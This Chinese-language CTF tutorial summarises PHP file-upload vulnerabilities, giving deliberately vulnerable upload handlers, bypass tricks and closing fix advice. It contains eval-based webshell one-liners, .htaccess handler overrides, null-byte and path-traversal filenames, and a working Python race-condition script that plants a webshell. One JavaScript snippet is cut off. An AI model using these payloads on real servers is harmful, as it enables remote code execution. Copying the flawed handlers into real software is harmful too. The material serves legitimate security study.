









# PHP文件上传总结


> 比赛时候基本每一场都会遇到文件上传的题目，但是解题思路一直受限于文件上传漏洞的不清晰，遂整理个总结篇吧。`大约是夜间飞禽都归巢睡觉,所以单见蝙蝠能干了.`

## 文件上传逻辑顺序



## 文件上传包结构

- 使用工具
  - BurpSuite
  - PHPstudy
  - PHP 7.2

### 代码示例

**文件上传页面**

这里构造一个文件上传的界面，开启抓包获取上传信息

```html
<form action='' enctype='multipart/form-data' method='POST'>
<input type='file' name='file'>
<input class="button" type="submit" name="submit" value="upload"/>
</form>
```

`multipart` 格式的数据会将一个表单拆分为多个部分（part），每个部分对应一个输入域。在一般的表单输入域中，
它所对应的部分中会放置文本型数据，但是如果上传的是文件，它所对应的部分可以是二进制数据

**文件上传包**

```bash
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="Filename"

phpinfo.php
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="test1"

test1
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="task"

doupload
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="file_id"

0
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="upload_file"; filename="shell.php::$DATA"
Content-Type: application/octet-stream

<?php

phpinfo();

------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2
Content-Disposition: form-data; name="Upload"

Submit Query
------------cH2cH2Ij5Ij5ei4KM7Ef1gL6Ij5cH2--
```

## 文件上传时存在的检测

1. 客户端javascript检测(检测文件扩展名)
2. 服务端MIME类型检测(检测Content-Type内容)
3. 服务器端目录路径检测(检测和Path参数相关的内容)
4. 服务端文件扩展名检测(检测跟文件extension相关的内容)
5. 服务端文件内容检测(检测内容是否合法或含有恶意代码)

### 前端检测——客户端 JavaScript 检测

在网站编写中，最常见的就是前端防护，也叫 `客户端 JavaScript 检测` 作用是在html页面中检测上传文件的类型和后缀名。这种是防护最弱最容易被绕过的。

#### 代码示例

**JS代码**

```javascript
function checkPic(){
	var rgx= "(.jpg|.JPG|.gif|.GIF)$";
	var re=new RegExp(rgx);
	var file_name=$("#picFile").val();
```



#### 绕过方法

  - 审查元素，修改Javascript检测函数
  - burpsuite抓包改后缀

---
## 服务端MIME文件类型检测

在服务器后端检测接收文件的 MIME 文件类型，此时通过白名单/黑名单可以限制文件上传类型。

#### 代码示例

**PHP代码展示**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```



#### 绕过方法

  - `Burpsuite`代理进行抓包,修改`Content-Type`为 `image/jpeg`等类型

**常见MINI类型**

|MINI类型|后缀名|
|-------|-----|
|audio/mpeg | .mp3|
|application/msword | .doc|
|application/octet-stream | .exe|
|application/pdf | .pdf|
|application/x-javascript | .js|
|application/x-rar | .rar|
|application/zip | .zip|
|image/gif | .gif|
|image/jpeg | .jpg / .jpeg|
|image/png | .png|
|text/plain | .txt|
|text/html | .html|
|video/mp4 | .mp4|

---
## 服务端目录路径检测

当上传路径未作限制,并且直接拼接文件名进行保存时可能会出现绕过方法。

#### 代码示例

**PHP代码示例**

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```



#### 绕过方法

- 存在 `path` 参数可控，配合 `解析漏洞`上传 webshell
- php 00截断: `GET:/upload/1.php%001.jpg`
- POST:`在文件名后burpsuite添加二进制00`
- 文件名前添加 `../../`拼接一下 `1.jpg`

---
## 服务端文件扩展名检测

最实用的文件上传限制，对文件后缀名进行检测，限制文件后缀名类型来达到限制文件的方法。分为`白名单`和`黑名单`两种

#### 代码示例

**PHP代码示例**

```php
function Image($filename){
      $types = '.jpeg|.png|.gif|.jpg';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$a = 0;

if(isset($_POST['btn'])){
    $file = $_FILES['image']['tmp_name'];
    $res = Image($file);
    if(!$res){
        $a = 2;
        echo '图片大小请不要超过2MB';
    }else{
$file = $_FILES['image'];
if (is_uploaded_file($file['tmp_name'])) {

    if (move_uploaded_file($file['tmp_name'], 'img\\' . $file['name'])) {
        $a =1;
        echo '保存成功';
        } else {
                $a = 3;
                echo '文件类型错误,请只传图片!';
            }
        }

}}
```

#### 绕过方法

利用思路:`os系统特性`、后缀名截取不规范、php代码缺陷、过滤不完全、`配合伪协议解析图形文件`

**黑名单**

- php2，php3、php4、php5、phtml、phtm代替php后缀
- 未去除末尾空格，添加空格绕过
- ::$DATA绕过（windows）
- 大小写混写
- 后缀添加点号(windows)
- 不可绕过考虑phar://协议利用，若过滤配合(compress://)
- /.符号绕过
- 更换.htaccess偏门文件名和后缀名


**白名单**

- 中间件解析漏洞
- 00解析漏洞

---
## 服务器端文件内容检测


文件内容检测，检测文件头是否符合图片格式,比如我们使用`010 Editor`打开一个我们构造的恶意文件



#### 代码示例

**PHP代码示例**

```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);
    $fileType = '';
    switch($typeCode){
        case 255216:
            $fileType = 'jpg';
            break;
        case 13780:
            $fileType = 'png';
            break;
        case 7173:
            $fileType = 'gif';
            break;
        default:
            $fileType = 'unknown';
        }
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```


#### 绕过方法

常见文件文件头：

|文件类型|文件头|
|-|-|
|PEG (jpg)|文件头：FFD8FF
|PNG (png)|文件头：89504E47
|GIF (gif)|文件头：47494638
|TIFF (tif)|文件头：49492A00
|Adobe Photoshop (psd)|文件头：38425053
|Rich Text Format (rtf)|文件头：7B5C727466
|XML (xml)|文件头：3C3F786D6C
|HTML (html)|文件头：68746D6C3E
|MS Word/Excel (xls.or.doc)|文件头：D0CF11E0
|MS Access (mdb)|文件头：5374616E64617264204A
|WordPerfect (wpd)|文件头：FF575043
|Postscript(`eps.or.ps`)|文件头：252150532D41646F6265
|Adobe Acrobat (pdf)|文件头：255044462D312E
|Windows Password (pwl)|文件头：E3828596
|ZIP Archive (zip)|文件头：504B0304
|RAR Archive (rar)|文件头：52617221
|AVI (avi)|文件头：41564920

---
## 文件加载检测 -- 重新渲染

在PHP中使用 `imagecreatefromjpeg` 函数可以直接生成图片。所以通过该函数可以重新渲染图片并保存，从而杜绝文件上传。


#### 代码示例

**PHP代码示例**

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];
    $target_path=UPLOAD_PATH.'/'.basename($filename);
    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);
    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);
            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}
```

#### 绕过方法

关于绕过gif的二次渲染,我们只需要找到渲染前后没有变化的位置,然后将php代码写进去,就可以成功上传带有php代码的图片了.

- [详细分析](https://xz.aliyun.com/t/2657#toc-13)

---
## 条件竞争上传

将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉,在去年也作为CTF考题出现过。


#### 代码示例

**PHP代码示例**

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./";

$filename = $_FILES['file']['name'];

if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success.file path is: ".$newfile."\n<br />";

if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
    die("error:upload the file type is not allowed，delete the file！");
}
?>
```

可以发现，该文件会在服务器落地，然后再被删除。

#### 绕过方法

我们的利用思路是这样的：

1. 首先上传一个php文件，内容为：

```php
<?php fputs(fopen("./shell.php", "w"), '<?php @eval($_POST[1]) ?>'); ?>
```


当然这个文件会被立马删掉，所以我们使用多线程并发的批量的发包同时去访问上传的文件 `URL`, 总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。利用代码如下

```py
import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1:8080/upload/shell.php" # 生成shell的URL
        self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php" #上传文件的URL

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        file = {"file":open("shell0.php","r")}
        requests.post(self.uploadUrl, files=file)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```
---
## 常见解析漏洞总结

### Apache解析漏洞

Apache 1.x & 2.x：当Apache遇到不认识的后缀名时，如：1.php.xx，会从后往前依次尝试解析，直到发现认识的php后缀名，遂当做PHP脚本解析。

### IIS解析漏洞

当文件名为`*.asp;1.jpg`类型的格式时，会被IIS当做`ASP脚本`执行

### Nginx解析漏洞

1. `test.jpg`=>`test.jpg/x.php` 进行解析攻击



2. `低版本的Nginx`可以在任意文件名后面添加`%00.php`进行解析攻击

### .htaccess文件上传

**方法一**

`FileMatch` 参数即为文件名的正则匹配
匹配文件 `1.jpg` 解析为php文件

```php
<FilesMatch "1.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
// 1.jpg
<?php eval($_POST['a']);?>
```

**方法二**：

上传 .htaccess 文件，将目录下所有 `.jpg` 文件解析为 `PHP` 文件

```php
AddType application/x-httpd-php .jpg
// 1.jpg
<?php eval($_POST['a']);?>
```






## 修复建议

1. 对上传文件类型进行验证，除在前端验证外在后端依然要做验证，后端可以进行扩展名检测，重命名文件，MIME类型检测以及限制上传文件的大小等限制来防御，或是将上传的文件其他文件存储服务器中。
2. 严格限制和校验上传的文件，禁止上传恶意代码的文件。
3. 对上传文件格式进行严格校验，防止上传恶意脚本文件。
4. 严格限制上传的文件路径、文件内容服务端校验。文件扩展名服务端白名单校验。
5. 隐藏上传文件路径。上传文件重命名。设置项目目录权限:可写目录不执行，执行目录不可写.

#### 参考链接

- https://www.anquanke.com/post/id/164561#h2-1
- https://masterxsec.github.io/2017/04/26/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%80%BB%E7%BB%93/
- https://zhzhdoai.github.io/2019/07/10/PHP%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%AD%98%E5%9C%A8%E7%9A%84%E6%A3%80%E6%B5%8B

